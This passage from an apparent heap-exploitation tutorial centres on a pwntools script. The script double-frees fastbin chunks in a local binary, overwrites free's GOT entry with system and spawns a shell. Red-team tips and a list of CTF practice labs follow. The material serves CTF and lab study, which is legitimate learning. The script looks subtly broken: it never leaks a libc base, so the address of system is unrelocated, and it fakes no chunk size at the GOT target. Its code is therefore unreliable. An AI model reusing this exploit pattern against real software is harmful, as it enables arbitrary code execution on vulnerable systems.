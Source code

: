 ```python
from pwn import *
elf = context.binary = ELF('./heap_vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = process(elf.path)

def alloc(size, data=b'A'):
    p.sendline(b'1')
    p.sendline(str(size).encode())
    p.sendline(data)

def free(idx):
    p.sendline(b'2')
    p.sendline(str(idx).encode())

alloc(0x60, b'A'*8)
alloc(0x60, b'B'*8)
free(0)
free(1)
free(0)  # double free
alloc(0x60, p64(elf.got['free']))
alloc(0x60, b'/bin/sh\x00')
alloc(0x60, p64(libc.symbols['system']))
free(0)
p.interactive()
```

***

### XX. ⚔️ Pro Tips & Red Team Tricks

✅ **Heap Layout Awareness**\
Always diagram heap allocations before crafting payloads.

✅ **Heap Fast Leak**\
Abuse unsorted bin pointers for libc base.

✅ **Heap Grooming**\
Use specific malloc/free patterns to position chunks predictably.

✅ **Automation**\
Use Pwntools scripts with dynamic heap base detection.

✅ **Cross-Arch**\
Heap corruption on 64-bit systems often requires safe-link decoding.

***

### XXI. 🧠 Practice Labs

| Platform                         | Focus                              |
| -------------------------------- | ---------------------------------- |
| **HeapLAB**                      | Visualized heap exploitation       |
| **pwnable.kr – heap, uaf**       | Basic/Intermediate heap challenges |
| **pwnable.tw – tcache\_tear**    | Advanced tcache exploitation       |
| **CTFtime**                      | Live heap pwn practice             |
| **HackTheBox – Pandora, Poison** | Real-world heap attacks            |
